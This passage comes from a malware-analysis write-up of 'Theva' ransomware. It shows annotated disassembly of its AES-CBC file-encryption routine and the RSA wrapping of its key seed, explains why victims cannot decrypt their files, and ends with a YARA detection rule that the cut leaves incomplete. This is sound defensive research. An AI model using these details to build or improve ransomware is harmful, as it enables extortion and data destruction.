.text:010C1AF1 test    eax, eax
.text:010C1AF3 jz      loc_10C1CFD
```

As you can see, `Algid` is set to `CALG_AES_192` which indicates a 192 bit AES key.

The final step involved with the encryption key creation is to set several parameters for the key's operations via [CryptSetKeyParam ](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptsetkeyparam):

```nasm
.text:010C1AF9                 mov     edi, ds:CryptSetKeyParam
.text:010C1AFF                 push    0               ; dwFlags is not set because dwParam is KP_MODE
.text:010C1B01                 push    offset pbData   ; pbData
.text:010C1B06                 push    KP_MODE         ; dwParam
.text:010C1B08                 push    [ebp+phKey]     ; hKey
.text:010C1B0B                 call    edi ; CryptSetKeyParam
.text:010C1B0D                 test    eax, eax
.text:010C1B0F                 jz      loc_10C1CFD
.text:010C1B15                 push    0               ; dwFlags
.text:010C1B17                 push    offset byte_11029B4 ; pbData
.text:010C1B1C                 push    KP_PADDING      ; dwParam
.text:010C1B1E                 push    [ebp+phKey]     ; hKey
.text:010C1B21                 call    edi ; CryptSetKeyParam
.text:010C1B23                 test    eax, eax
.text:010C1B25                 jz      loc_10C1CFD
.text:010C1B2B                 push    0               ; dwFlags
.text:010C1B2D                 push    offset xmmword_1103DE0 ; pbData
.text:010C1B32                 push    KP_IV           ; dwParam
.text:010C1B34                 push    [ebp+phKey]     ; hKey
.text:010C1B37                 call    edi ; CryptSetKeyParam
.text:010C1B39                 test    eax, eax
.text:010C1B3B                 jnz     loc_10C1C7C
.text:010C1B41                 jmp     loc_10C1CFD
```

In the first call, `dwParam` is set to `KP_MODE` and `pbData` is 1 meaning `CRYPT_MODE_CBC` which indicates that cipher mode is [cipher block chaining](https://learn.microsoft.com/en-us/windows/win32/secgloss/c-gly). In the second call, `dwParam` is set to `KP_PADDING` and `pbData` is set to 1 meaning `PKCS5_PADDING` which means that the [PKCS 5](https://www.cryptosys.net/pki/manpki/pki_paddingschemes.html) padding mode is going to be used. In the third call, `dwParam` is set to `KP_IV` and `pbData` is set to 0. In this case, this call is used to indicate the initialization vector for the cipher. In case any of these calls to `CryptSetKeyParam` fails, the function continues with the next file in the list.

Once the encryption key is created, a block of *0x3F0* bytes is allocated:

```nasm
.text:010C1C7C
.text:010C1C7C loc_10C1C7C:            ; Size
.text:010C1C7C push    3F0h
.text:010C1C81 call    _malloc
.text:010C1C86 mov     esi, eax
.text:010C1C88 add     esp, 4
.text:010C1C8B test    esi, esi
.text:010C1C8D jz      short loc_10C1CFD
```

This block of memory will contain the data read from the file and the subsequent encrypted data (`lpBuffer` in ReadFile/WriteFile and `pbData` in `CryptEncrypt`).

Finally, the data from the original file is read and encrypted using the `CryptEncrypt` with the newly created encryption key. Then, the encrypted data is written to the new file. Data from the file is read in blocks of *0x3E0* bytes:

```nasm
.text:010C1C94 loc_10C1C94:                            ; CODE XREF: encrypt_files+325↓j
.text:010C1C94                 push    0               ; lpOverlapped
.text:010C1C96                 lea     eax, [ebp+NumberOfBytesWritten]
.text:010C1C99                 push    eax             ; lpNumberOfBytesRead
.text:010C1C9A                 push    3E0h            ; nNumberOfBytesToRead
.text:010C1C9F                 push    esi             ; lpBuffer
.text:010C1CA0                 push    [ebp+hFile]     ; hFile
.text:010C1CA3                 call    ds:ReadFile
.text:010C1CA9                 test    eax, eax
.text:010C1CAB                 jz      short loc_10C1CFB
.text:010C1CAD                 cmp     [ebp+NumberOfBytesWritten], 3E0h
.text:010C1CB4                 mov     eax, 1
.text:010C1CB9                 push    3F0h            ; dwBufLen
.text:010C1CBE                 movzx   ebx, bl
.text:010C1CC1                 cmovb   ebx, eax
.text:010C1CC4                 lea     eax, [ebp+NumberOfBytesWritten]
.text:010C1CC7                 push    eax             ; pdwDataLen
.text:010C1CC8                 push    esi             ; pbData
.text:010C1CC9                 push    0               ; dwFlags = reserved?
.text:010C1CCB                 movzx   eax, bl
.text:010C1CCE                 push    eax             ; Final
.text:010C1CCF                 push    0               ; hHash = 0, no hash to be done
.text:010C1CD1                 push    [ebp+phKey]     ; hKey
.text:010C1CD4                 call    ds:CryptEncrypt
.text:010C1CDA                 test    eax, eax
.text:010C1CDC                 jz      short loc_10C1CFB
.text:010C1CDE                 push    0               ; lpOverlapped
.text:010C1CE0                 lea     eax, [ebp+NumberOfBytesWritten]
.text:010C1CE3                 push    eax             ; lpNumberOfBytesWritten
.text:010C1CE4                 push    [ebp+NumberOfBytesWritten] ; nNumberOfBytesToWrite
.text:010C1CE7                 push    esi             ; lpBuffer
.text:010C1CE8                 push    edi             ; hFile
.text:010C1CE9                 call    ds:WriteFile
.text:010C1CEF                 test    eax, eax
.text:010C1CF1                 jz      short loc_10C1CFB
.text:010C1CF3                 test    bl, bl
.text:010C1CF5                 jz      short loc_10C1C94
.text:010C1CF7                 mov     [ebp+var_1D], 1
```

The following are pictures of the original file data and the encrypted file data, respectively:

 - Original file data



 - Encrypted file data


 
Finally, corresponding handles and hash objects are destroyed and the function returns 0 or 1 to indicate if it was successful or not. In case the function was successful, the original file is deleted.

A little remark about the encryption routine is that there is no check over the file data to know if it is already encrypted or not. If the ransomware is executed again, it will overwrite the encrypted file with a new one.

## Can encrypted files be decrypted?

After analyzing the encryption routine, the first question that came up to my mind was "OK, now, is it possible to decrypt the files?", that's the million dollar question, right?.

As detailed in the previous section, the ransomware generates a 192 bit AES-CBC key with PKCS5 padding based on a *random* string value that is pre-generated at the beginning of the execution of the ransomware. At first glance, when I saw the `PROV_RSA_AES` in the call to `CryptAcquireContextA` I thought that RSA encryption was going to be performed but it seems this is not the case. Why not using RSA cryptography directly to encrypt the files instead of AES? Well, it seems that symmetric encryption is faster and computationally less intensive than asymmetric encryption and, as in this case, you have hundred of files to process then AES looks the most logical option to use.

Unlike RSA in which you have a pair of keys (public key for encryption and private key for decryption), [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) is a symmetric-key algorithm, meaning the same key is used for both encrypting and decrypting the data. This is an advantage for us because when RSA encryption is performed the public key used for encryption is generally stored in the binary or an additional file and we need the private key, usually stored in an external server or attacker's machine, in order to decrypt the files. However, in this case, the same key, generated by the ransomware, is used to encrypt and decrypt the data. But, how the attacker knows about what key was used to encrypt the files?. In this case, during the analysis, I haven't seen any trace of remote connections to any C&C meaning the key should be stored somewhere on the victim's computer and the attacker has to get it in some way when the victim contacts him/her to send the payment. Also, we saw that the `random_value` string used to generate the final encryption key changes in every execution of the ransomware, it doesn't remain static. So, I guess that in order to answer these questions we need to analyze a little bit more how the `random_value` string is generated and manipulated.

At this point, it's clear that if we are able to obtain the `random_value` string, by executing the same operations used in the encryption process with the obtained key and the help of [CryptDecrypt](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt), we should be able to decrypt the files content. The mystery is about to know how to obtain this value.

## Analyzing the generation of the `random_value` string

If we follow the xrefs to the `random_value` in the `search_files_and_encrypt` function, just before invoking the `encrypt_files` function, we'll see the following references:



We are only interested in the references were a value is stored in the variable. We have two results that respond to this criterion, both located in the `WinMain` function. The second result is located in the code flow I already described at the beginning and the first one is located just after the mutex creation. It doesn't really matter where the result is stored or how it is generated. We already know that it's based on certain `rand` invocations and local time function calls and that then is used in a format string to build a string like **SX-Kv592f6rPQ7gwET9lN60f99Vs-2023-03-21**. Our main interest is to know how this value is manipulated after the generation. 

To make the story short, the interesting stuff happens at the `encrypt_random_value` function (`sub_010C7750`):

```nasm
.text:010C4127 sub     ecx, edx
.text:010C4129 push    ecx             ; Size
.text:010C412A push    offset _Ptr     ; Src
.text:010C412F lea     ecx, [ebp-1980h]
.text:010C4135 call    sub_10C1510
.text:010C413A lea     eax, [ebp-1AE8h]
.text:010C4140 push    eax             ; int
.text:010C4141 lea     eax, [ebp-1980h]
.text:010C4147 push    eax             ; Src
.text:010C4148 call    encrypt_random_value
.text:010C414D mov     ecx, [ebp-196Ch]
.text:010C4153 mov     edi, eax
.text:010C4155 cmp     ecx, 10h
.text:010C4158 jb      short loc_10C41A0
```

If you analyze the function, you'll see that the first thing it does is to move the hardcoded RSA public key to another memory region and then uses [CryptStringToBinary](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) to convert this string to an array of bytes:

```nasm
.text:010C7780 push    offset aBeginPublicKey ; "-----BEGIN PUBLIC KEY-----MIGfMA0GCSqGS"...
.text:010C7785 push    eax             ; void *
.text:010C7786 call    _memmove_0
.text:010C778B add     esp, 0Ch
.text:010C778E mov     [ebp+pcbBinary], 800h
.text:010C7798 lea     eax, [ebp+pcbBinary]
.text:010C779E mov     [ebp+phProv], 0
.text:010C77A8 mov     [ebp+phKey], 0
.text:010C77B2 push    0               ; pdwFlags
.text:010C77B4 push    0               ; pdwSkip
.text:010C77B6 push    eax             ; pcbBinary
.text:010C77B7 lea     eax, [ebp+pbBinary]
.text:010C77BD push    eax             ; pbBinary
.text:010C77BE push    CRYPT_STRING_BASE64HEADER ; dwFlags
.text:010C77C0 push    0               ; cchString
.text:010C77C2 lea     eax, [ebp+pszString]
.text:010C77C8 push    eax             ; pszString
.text:010C77C9 call    ds:CryptStringToBinaryA
.text:010C77CF test    eax, eax
.text:010C77D1 jnz     short loc_10C7806
.text:010C77D3 call    ds:GetLastError
```

You can see the output of `CryptStringToBinaryA` in the following picture:



Then, the [CryptDecodeObjectEx](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecodeobjectex) function is called with the following parameters to decode the array of bytes returned by `CryptStringToBinaryA`:

```nasm
.text:010C7806
.text:010C7806 loc_10C7806:
.text:010C7806 lea     eax, [ebp+pcbStructInfo]
.text:010C780C push    eax             ; pcbStructInfo
.text:010C780D lea     eax, [ebp+pvStructInfo]
.text:010C7813 push    eax             ; pvStructInfo
.text:010C7814 push    0               ; pDecodePara
.text:010C7816 push    CRYPT_ENCODE_ALLOC_FLAG ; dwFlags
.text:010C781B push    [ebp+pcbBinary] ; cbEncoded
.text:010C7821 lea     eax, [ebp+pbBinary]
.text:010C7827 push    eax             ; pbEncoded
.text:010C7828 push    CRYPT_STRING_HEX_ANY ; lpszStructType
.text:010C782A push    X509_ASN_ENCODING ; dwCertEncodingType
.text:010C782C call    ds:CryptDecodeObjectEx
.text:010C7832 test    eax, eax
.text:010C7834 jnz     short loc_10C7844
```

In the `pvStructInfo` parameter, we receive the address of a pointer to the results:



Then, we have some calls to `CryptAcquireContextA` and [CryptImportPublicKeyInfo](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptimportpublickeyinfo) to make use of the RSA public key information but the important call is located here:

```nasm
.text:010C7938
.text:010C7938 loc_10C7938:            ; Size
.text:010C7938 push    [ebp+Size]
.text:010C793E push    esi             ; Src
.text:010C793F push    edi             ; void *
.text:010C7940 call    _memmove_0
.text:010C7945 add     esp, 0Ch
.text:010C7948 lea     eax, [ebp+Size]
.text:010C794E push    [ebp+pdwDataLen] ; dwBufLen
.text:010C7954 push    eax             ; pdwDataLen
.text:010C7955 push    edi             ; pbData
.text:010C7956 push    0               ; dwFlags
.text:010C7958 push    1               ; Final
.text:010C795A push    0               ; hHash
.text:010C795C push    [ebp+phKey]     ; hKey
.text:010C7962 call    ds:CryptEncrypt
.text:010C7968 test    eax, eax
.text:010C796A jz      loc_10C78DB
```

At this location, the formatted random value is encrypted with the hardcoded RSA public key:



Here's the output:



Then, it converts the encrypted random value to a base64 string which is then embedded into the ransom note. The following pictures shows the base64 encoded value:


The conversion happens at this place:

```nasm
.text:010C41A0
.text:010C41A0 loc_10C41A0:            ; int
.text:010C41A0 push    dword ptr [ebp-1AE8h]
.text:010C41A6 mov     edx, edi
.text:010C41A8 mov     dword ptr [ebp-1970h], 0
.text:010C41B2 lea     ecx, [ebp-1B10h] ; Src
.text:010C41B8 mov     dword ptr [ebp-196Ch], 0Fh
.text:010C41C2 mov     byte ptr [ebp-1980h], 0
.text:010C41C9 call    encode_base64
.text:010C41CE mov     edi, eax
.text:010C41D0 add     esp, 4
.text:010C41D3 cmp     edi, offset ransom_note_id
.text:010C41D9 jz      short loc_10C420D
```

You can check this by decoding the base64 string and comparing it against the output of `CryptEncrypt`:

```python
>>> import base64
>>> s = "a0oOe59vBE/xqtcGhY9Eqj/5sB+oAkrOXFRPziMZKn/h70lVoqEYj/czJvu7gcy3GgqzjwdPPGoC86GY9+3thkrMapvJ2uTShgvcsNIcfTftUDis5A9BhkulqfL+nUcxTGMDrvsuS9cV/5Bc+Ylo84tdvYdpIOWNbKYnZGvWeRk="
>>> base64.b64decode(s)
b"kJ\x0e{\x9fo\x04O\xf1\xaa\xd7\x06\x85\x8fD\xaa?\xf9\xb0\x1f\xa8\x02J\xce\\TO\xce#\x19*\x7f\xe1\xefIU\xa2\xa1\x18\x8f\xf73&\xfb\xbb\x81\xcc\xb7\x1a\n\xb3\x8f\x07O<j\x02\xf3\xa1\x98\xf7\xed\xed\x86J\xccj\x9b\xc9\xda\xe4\xd2\x86\x0b\xdc\xb0\xd2\x1c}7\xedP8\xac\xe4\x0fA\x86K\xa5\xa9\xf2\xfe\x9dG1Lc\x03\xae\xfb.K\xd7\x15\xff\x90\\\xf9\x89h\xf3\x8b]\xbd\x87i \xe5\x8dl\xa6'dk\xd6y\x19"
>>>
```

Finally, the ransom note is created and written to disk at this place:

```nasm
.text:010C425D
.text:010C425D loc_10C425D:            ; hModule
.text:010C425D mov     ecx, [ebp-1AE4h]
.text:010C4263 call    copy_ransom_binary_and_note
.text:010C4268 xor     edi, edi
.text:010C426A test    esi, esi
.text:010C426C jle     short loc_10C42B1
```

Here's a picture of the generated ransom note:



# Conclusion

Now, think about this scenario: all your files were encrypted by *Theva* and you have the encrypted files and the note. Also, you know how the ransomware works, you know that the key used to encrypt the files is stored in the ransom note in a base64 encoded string, so .. you can decrypt the files, right? 

Unfortunately, the answer is no, you can't. Why? because even if you have the key that the ransomware used to encrypt the files, this key was encrypted using RSA public cryptography. 

The ransomware used the hardcoded public key to do it meaning that you need the private key in order to decrypt the files and, obviously, this information is not available in the ransomware binary nor the infected computer, only the ransomware author has it. So, when you decide to pay the ransom, the criminal only needs the ransom note ID, it decodes the base64 string, decrypts the data using the private key and uses the generated random value to derive the final AES key that is going to be used to decrypt the encrypted files.

# Final words

If you want to play a little bit, I'll leave the ransom note and some encrypted files in the [data](./data) directory. You can try to write a small decryptor tool for these files by using the data available in this tutorial.

I hope you enjoyed the reading and see you next time.

# Yara rules

The following Yara rule can be used to hunt for Theva ransomware samples.

```
rule ThevaRansomware {
	meta:
		description = "YARA rule for Theva Ransomware"
		reference = "https://crackinglandia.wordpress.com/"
		author = "crackinglandia"

	strings:

		$delete_recovery_mechanisms = {
			6A ?? 6A ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 6A ?? FF D6 6A ?? 6A ?? 68 
			?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 6A ?? FF D6 6A ?? 6A ?? 68 ?? ?? ?? ?? 68 
			?? ?? ?? ?? 68 ?? ?? ?? ?? 6A ?? FF D6 6A ?? 6A ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 
			?? ?? ?? ?? 6A ?? FF D6 E8 ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 40 ?? C7 84 05 ?? ?? ?? 
			?? ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 48 ?? 8D 41 ?? 89 84 0D ?? ?? ?? ?? 8D 8D ?? ?? 
			?? ?? E8 ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 40 ?? C7 84 05 ?? ?? ?? ?? ?? ?? ?? ?? 8B 
			85 ?? ?? ?? ?? 8B 48 ?? 8D 41 ?? 89 84 0D ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? C7 45 ?? ?? 
			?? ?? ?? 50 C7 85 ?? ?? ?? ?? ?? ?? ?? ?? E8 ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 83 C4 ?? 
			8B 40 ?? C7 84 05 ?? ?? ?? ?? ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 48 ?? 8D 41 ?? 89 84 
			0D ?? ?? ?? ?? 8D 8D ?? ?? ?? ?? E8 ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 40 ?? C7 84 05 
			?? ?? ?? ?? ?? ?? ?? ?? 8B 85 ?? ?? ?? ?? 8B 48 ?? 8D 41 ?? 89 84 0D ?? ?? ?? ?? 8D 
			85 ?? ?? ?? ?? C7 45 ?? ?? ?? ?? ?? 50 C7 85 ?? ?? ?? ?? ?? ?? ?? ?? E8 ?? ?? ?? ?? 
			83 C4
		}

		$get_drives = {
			55 8B EC 83 EC ?? A1 ?? ?? ?? ?? ?? ?? ?? ?? FC 53 56 57 8B D9 FF 15 ?? ?? ?? ?? 33 
			FF 89 45 ?? 33 F6 BA ?? ?? ?? ?? 8B CE D3 E2 85 D0 74 ?? 8D 46 ?? 50 8D 45 ?? 68 ?? 
			?? ?? ?? 50 FF 15 ?? ?? ?? ?? 83 C4 ?? 8D 45 ?? 50 FF 15 ?? ?? ?? ?? 83 FE ?? 7D ?? 
			83 F8 ?? 74 ?? 83 F8 ?? 74 ?? 83 F8 ?? 74 ?? 83 F8 ?? 75 ?? 8D 46 ?? 66 89 04 7B 47 
			8B 45 ?? 46 83 FE ?? 7C ?? 8B 4D ?? 33 C0 66 89 04 7B 33 CD 5F 5E 5B E8 ?? ?? ?? ?? 
			8B E5 5D C3 
		}

		$enum_network_resources = {
			55 8B EC B8 ?? ?? ?? ?? E8 ?? ?? ?? ?? A1 ?? ?? ?? ?? ?? ?? ?? ?? FC 53 56 57 8D 85 
			?? ?? ?? ?? 8B FA 50 51 6A ?? 6A ?? 6A ?? 89 BD ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 8B F0 
			85 F6 74 ?? 56 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 81 FE ?? ?? ?? ?? 75 ?? 68 ?? 
			?? ?? ?? 8D 85 ?? ?? ?? ?? 50 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 8D 85 ?? ?? ?? ?? 
			50 FF 15 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF B5 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 68 
			?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? B8 ?? ?? ?? ?? 5F 5E 5B 8B 4D ?? 33 CD E8 ?? ?? 
			?? ?? 8B E5 5D C3 8D 85 ?? ?? ?? ?? C7 85 ?? ?? ?? ?? ?? ?? ?? ?? 50 8D 85 ?? ?? ?? 
			?? C7 85 ?? ?? ?? ?? ?? ?? ?? ?? 50 8D 85 ?? ?? ?? ?? 50 FF B5 ?? ?? ?? ?? FF 15 ?? 
			?? ?? ?? 8B F0 85 F6 74 ?? 56 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 81 FE ?? ?? ?? 
			?? 75 ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 8D 
			85 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF B5 ?? ?? ?? ?? 8D 85 ?? 
			?? ?? ?? 50 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? B8 ?? ?? ?? ?? 5F 5E 5B 8B 4D ?? 
			33 CD E8 ?? ?? ?? ?? 8B E5 5D C3 33 DB 39 9D ?? ?? ?? ?? 76 ?? 8D B5 ?? ?? ?? ?? 0F 
			1F 44 00 ?? 85 FF 7E ?? 8B 4E ?? E8 ?? ?? ?? ?? 83 EF ?? 75 ?? 8B BD ?? ?? ?? ?? 68 
			?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? F6 06 ?? 74 ?? 8D 57 ?? 8D 4E ?? E8 ?? ?? ?? ?? 
			43 83 C6 ?? 3B 9D ?? ?? ?? ?? 72 ?? FF B5 ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 8B 4D ?? 33 
			C0 5F 5E 33 CD 5B E8 ?? ?? ?? ?? 8B E5 5D C3 
		}

		$search_files = {
			55 8B EC B8 ?? ?? ?? ?? E8 ?? ?? ?? ?? A1 ?? ?? ?? ?? ?? ?? ?? ?? FC 53 56 8B 35 ?? 
			?? ?? ?? 8D 85 ?? ?? ?? ?? 57 8B F9 68 ?? ?? ?? ?? 57 68 ?? ?? ?? ?? 50 89 BD ?? ?? 
			?? ?? FF D6 83 C4 ?? 8D 85 ?? ?? ?? ?? 50 8D 85 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 89 
			85 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 8B 1D ?? ?? ?? ?? 66 0F 1F 84 00 ?? ?? 00 00 
			68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 
			85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 
			FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 
			?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? 
			?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? 
			?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 
			85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? 
			?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? 
			?? 8D 85 ?? ?? ?? ?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? 
			?? 50 FF D3 85 C0 0F 84 ?? ?? ?? ?? F6 85 ?? ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 57 8D 
			85 ?? ?? ?? ?? 68 ?? ?? ?? ?? 50 74 ?? FF D6 83 C4 ?? 8D 8D ?? ?? ?? ?? BA ?? ?? ?? 
			?? E8 ?? ?? ?? ?? E9 ?? ?? ?? ?? FF D6 33 F6 83 C4 ?? 39 35 ?? ?? ?? ?? 0F 8E ?? ?? 
			?? ?? FF 34 B5 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 50 FF D3 85 C0 0F 
			85 ?? ?? ?? ?? 8B CF E8 ?? ?? ?? ?? 68 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 8D 85 ?? ?? 
			?? ?? 68 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 8B 3D ?? ?? ?? ?? 83 C4 ?? 68 ?? ?? ?? ?? 
			FF 15 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? C7 05 ?? ?? ?? ?? ?? ?? ?? ?? C7 05 
			?? ?? ?? ?? ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 0F 57 C0 8D 95 ?? ?? ?? ?? 57 8D 8D ?? ?? 
			?? ?? 0F 11 05 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 84 C0 74 ?? 8D 85 ?? ?? ?? ?? 50 
			E8 ?? ?? ?? ?? 83 C4 ?? 8D 85 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 8B BD ?? ?? ?? ?? 46 
			3B 35 ?? ?? ?? ?? 0F 8C ?? ?? ?? ?? 8B 35 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 FF B5 ?? 
			?? ?? ?? FF 15 ?? ?? ?? ?? 85 C0 0F 85 ?? ?? ?? ?? FF B5 ?? ?? ?? ?? FF 15 ?? ?? ?? 
			?? 8B 4D ?? 5F 5E 33 CD 5B E8 ?? ?? ?? ?? 8B E5 5D C3 
		}

		$encrypt_random_value = {
			55 8B EC B8 ?? ?? ?? ?? E8 ?? ?? ?? ?? A1 ?? ?? ?? ?? ?? ?? ?? ?? FC 8B 45 ?? 56 8B 
			75 ?? 57 68 ?? ?? ?? ?? 89 85 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 68 ?? ?? ?? ?? 50 E8 ?? 
			?? ?? ?? 83 C4 ?? C7 85 ?? ?? ?? ?? ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? C7 85 ?? ?? ?? ?? 
			?? ?? ?? ?? C7 85 ?? ?? ?? ?? ?? ?? ?? ?? 6A ?? 6A ?? 50 8D 85 ?? ?? ?? ?? 50 6A ?? 
			6A ?? 8D 85 ?? ?? ?? ?? 50 FF 15 ?? ?? ?? ?? 85 C0 75 ?? FF 15 ?? ?? ?? ?? 50 68 ?? 
			?? ?? ?? 6A ?? E8 ?? ?? ?? ?? 83 C4 ?? 50 E8 ?? ?? ?? ?? 83 C4 ?? 33 C0 5F 5E 8B 4D 
			?? 33 CD E8 ?? ?? ?? ?? 8B E5 5D C2 ?? ?? 8D 85 ?? ?? ?? ?? 50 8D 85 ?? ?? ?? ?? 50 
			6A ?? 68 ?? ?? ?? ?? FF B5 ?? ?? ?? ?? 8D 85 ?? ?? ?? ?? 50 6A ?? 6A ?? FF 15 ?? ?? 
			?? ?? 85 C0 75 ?? FF 15 ?? ?? ?? ?? 50 68 ?? ?? ?? ?? EB ?? 8B 3D ?? ?? ?? ?? 8D 85 
			?? ?? ?? ?? 68 ?? ?? ?? ?? 6A ?? 68 ?? ?? ?? ?? 6A ?? 50 FF D7 85 C0 75 ?? 6A ?? 6A 
			?? 68 ?? ?? ?? ?? 50 8D 85 ?? ?? ?? ?? 50 FF D7 85 C0 74 ?? 8D 85 ?? ?? ?? ?? 50 FF 
			B5 ?? ?? ?? ?? 6A ?? FF B5 ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 85 C0 75 ?? FF 15 ?? ?? ?? 
			?? 50 68 ?? ?? ?? ?? E9 ?? ?? ?? ?? 8B 46
		}

		$encrypt_files_p1 = {
			55 8B EC 83 EC ?? A1 ?? ?? ?? ?? ?? ?? ?? ?? FC 53 56 57 8B 7D ?? 33 F6 56 68 ?? ?? 
			?? ?? 6A ?? 56 6A ?? 6A ?? 51 89 55 ?? 83 CB ?? C6 45 ?? ?? C7 45 ?? ?? ?? ?? ?? C7 
			45 ?? ?? ?? ?? ?? C7 45 ?? ?? ?? ?? ?? C7 45 ?? ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 89 45 
			?? 3B C3 0F 84 ?? ?? ?? ?? 56 68 ?? ?? ?? ?? 6A ?? 56 6A ?? 68 ?? ?? ?? ?? FF 75 ?? 
			FF 15 ?? ?? ?? ?? 8B D8 89 5D ?? 83 FB ?? 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? 6A ?? 56 
			56 8D 45 ?? 50 FF 15 ?? ?? ?? ?? 85 C0 75 ?? 6A ?? 6A ?? 50 50 8D 45 ?? 50 FF 15 ?? 
			?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 85 FF 0F 84 ?? ?? ?? ?? 80 3F ?? 0F 84 ?? ?? ?? ?? 
			81 FF ?? ?? ?? ?? 0F 84 ?? ?? ?? ?? 8D 45 ?? 50 6A ?? 6A ?? 68 ?? ?? ?? ?? FF 75 ?? 
			FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 6A ?? 57 FF 15 ?? ?? ?? ?? 50 57 FF 75 ?? 
			FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 8D 45 ?? 50 6A ?? FF 75 ?? 68 ?? ?? ?? ?? 
			FF 75 ?? FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 8B 3D ?? ?? ?? ?? 6A ?? 68 ?? ?? 
			?? ?? 6A ?? FF 75 ?? FF D7 85 C0 0F 84 ?? ?? ?? ?? 6A ?? 68 ?? ?? ?? ?? 6A ?? FF 75 
			?? FF D7 85 C0 0F 84 ?? ?? ?? ?? 6A ?? 68 ?? ?? ?? ?? 6A ?? FF 75 ?? FF D7 85 C0 0F 
			85 ?? ?? ?? ?? E9 ?? ?? ?? ?? 8B 3D ?? ?? ?? ?? 8D 45 ?? 50 6A ?? 68 ?? ?? ?? ?? FF 
			75 ?? FF D7 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 8D 45 ?? 
			50 6A ?? FF 75 ?? FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? E8 ?? ?? 
			?? ?? 83 C4 ?? 8D 45 ?? 50 6A ?? 6A ?? 6A ?? FF 75 ?? FF 75 ?? FF 15 ?? ?? ?? ?? 85
			}

		$encrypt_files_p2 = {
			C0 0F 84 ?? ?? ?? ?? FF 75 ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? FF 75 ?? E8 ?? ?? ?? ?? 
			8B F8 83 C4 ?? 85 FF 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 8D 45 
